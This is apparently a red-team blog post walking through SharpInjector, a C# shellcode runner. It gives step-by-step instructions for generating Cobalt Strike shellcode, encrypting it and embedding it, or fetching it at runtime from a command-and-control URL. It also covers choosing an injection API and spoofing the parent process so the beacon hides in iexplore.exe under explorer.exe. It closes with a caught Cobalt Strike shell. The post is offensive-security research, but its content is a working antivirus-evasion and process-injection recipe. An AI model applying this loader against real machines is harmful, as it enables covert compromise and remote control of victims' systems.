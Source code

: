 ```yaml
---
layout: post
title: SharpInjector
subtitle: Experimenting with a shellcode runner
thumbnail-img: /assets/projects/sharpinjector/thumb.png
share-img: /assets/projects/sharpinjector/thumb.png
tags: [c#, shellcode runner, sharpinjector]
---
```


Since AV evasion has become more difficult over time, I've had to turn to more mature payloads and shellcode runners. Gone are the days of initial access through click-to-generate payloads like Cobalt Strike's HTA. Some of the more customized and advanced runners I've had success with are FireEye's [DueDlligence](https://github.com/fireeye/DueDLLigence), [D00mFist's](https://twitter.com/_D00mfist) [Go4aRun](https://github.com/D00MFist/Go4aRun) and [djhohnstein's](https://twitter.com/djhohnstein) [ScatterBrain](https://github.com/djhohnstein/ScatterBrain). 

The SharpInjector project is my inital attempt at writing a custom shellcode runner in the same vein as those projects (lots of inspiration drawn from them, as well as this [DEFCON workshop](https://github.com/mvelazc0/defcon27_csharp_workshop) for help learning parent process ID spoofing). Below is a quick run through of setup/usage, highlighting some of the customization options along the way.

The code repository can be found [here](https://github.com/tw1sm/SharpInjector).

# Prepping the Shellcode
The final SharpInjector payload will contain encrypted shellcode, decrypt it and perform the injection. So we'll need to get some encrypted shellcode into the solution to start.

Generate your shellocde - I'll do this in Cobalt Strike: *Attacks > Packages > Windows Executable (S)*
![Generate Shellcode](/assets/projects/sharpinjector/shellcode.png){: .mx-auto.d-block :}

Clone the project and transfer your `.bin` file over the the system you're generating the payload on.
~~~
git clone https://github.com/tw1sm/SharpInjector.git
~~~

Open up the `ScEncryptor` project and edit `Program.cs`. On line 34, edit the encryption key variable:
```csharp
public static string Enc(string data)
        {
            string enc = "";
            string key = "01010101010101010101010101010101"; // CHANGE THIS TO A 16/24/32 BYTE VALUE
```

Build the `ScEncryptor` project.

Run `ScEncryptor.exe` and supply the path of your shellcode .bin as the sole argument:
![Encrypt Shellcode](/assets/projects/sharpinjector/scencryptor.png){: .mx-auto.d-block :}

Your shellcode will be encrypted, then base64 encoded and the resulting string will automatically be placed into the `SharpInjector` project in `Shellycode.cs`:
```csharp
namespace SharpInjector
{
    class EncryptedShellcode
    {
        public string EncSc = "Od/HuzTqISDnPNtgmoUZ2c8" //SNIPPED
    }
}
```

You can choose to leave the encrypted shellcode within this file and contiune customizing the project. However, if you don't want to include the shellcode string in the final binary, you can copy the base64 string out of `Shellycode.cs` and host a file with the string on the web. If the `EncSc` var is set to an empty string, your shellcode will be downloaded from a supplied URL at runtime:
```csharp
namespace SharpInjector
{
    class EncryptedShellcode
    {
        public string EncSc = "" //Has to be blank for download to run
    }
}
```

This not only has the benefit of excluding the encrypted shellcode from your binary, but it also offers you a sort of "killswitch" for the payload. If you stop hosting your shellcode file at any point, your payload will become a dud. Conversely though, your payload will now be reaching out to the internet, so consider what is best for your situation.

# Building the Payload
The shellcode is ready, let's cutomize the actual payload and build it.

Set the decryption key on line 103 within `Program.cs` in the `SharpInjector` project to match your encryption key set in the `ScEncryptor` project.
```csharp
// Decryptor func
public static string Dec(string ciphertext)
{
    string key = "01010101010101010101010101010101"; // CHANGE THIS 16/24/32 BYTE VALUE TO MATCH ENCRYPTION KEY
```

Still within `Program.cs`, on line 22 set your preferred Windows API call used to execute the shellcode. This is very similar to how `DueDlligence` offers several execution options - I've just expanded on the available options to practice importing API calls in C#.
```csharp
const ExecutionMethod exeMethod = ExecutionMethod.RtlCreateUserThread; // CHANGE THIS; shellcode exectuon method
```

On lines 24 and 25, set the parent process ID spoofing configs. Line 24 sets the parent process that a child will be spawned from. `explorer.exe` is a good target for this. On line 25, the `ProgramPath` variable specifies the child process to launch - this is the process your beacon/shell will live in. *Note: PPID spoofing will only be performed if the chosen API call is capable of remote process injection.*
```csharp
string ParentName = "explorer"; // CHANGE THIS: name of parent process
string ProgramPath = @"C:\Program Files\Internet Explorer\iexplore.exe"; // CHANGE THIS: path to process shellcode will be injected into
```

Lastly, if you've chosen to host your shellcode on the web for download, set the `ShellcodeUrl` variable on line 26. I'm leaving it blank (shellcode included in the binary) for this test, but an example would look like:
```csharp
string ShellcodeUrl = "https://seetwo-domain.com/shellcodefile"; // CHANGE THIS; URL of encrypted shellcode if downloading from web
```

Set your build configuration to `x64` and build the payload.

# Testing Execution
I've got the resutling `SharpInjector.exe` on my target system where I'll execute it:
![SharpInjector Execution](/assets/projects/sharpinjector/execute.png){: .mx-auto.d-block :}

And the Cobalt Strike shell caught:
![Shell](/assets/projects/sharpinjector/shell.png){: .mx-auto.d-block :}

Just to double check how this looks in ProcessExplorer, we can see the HTTPS beacon living in `iexplore.exe`, which does appear spoofed as a child of our chosen parent, `explorer.exe`.
![Shell](/assets/projects/sharpinjector/procexp.png){: .mx-auto.d-block :}